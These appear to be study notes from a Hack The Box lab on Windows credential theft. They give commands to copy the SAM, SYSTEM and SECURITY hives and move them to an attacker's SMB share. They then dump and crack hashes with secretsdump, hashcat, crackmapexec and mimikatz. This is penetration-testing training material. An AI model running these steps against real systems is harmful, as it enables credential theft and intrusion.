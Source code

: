 #### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

#### Using reg.exe save to Copy Registry Hives

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
#### Creating a Share with smbserver.py

```shell-session
Tachipy@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Moving Hive Copies to Share

  Moving Hive Copies to Share

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```
#### Hash Dump from hive with secretsdump.py

  Running secretsdump.py

```shell-session
Tachipy@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL
```
#### Cracking NT Hashes with hashcat
```shell-session
sudo hashcat -m 1000 sam.hash mut_password.txt
```


#### (LocalAdmin) Dumping hashes over network

LSA:
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
SAM:
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

#### Extract hashes with mimikatz

```cmd
mimikatz.exe sekurlsa::logonpasswords
```
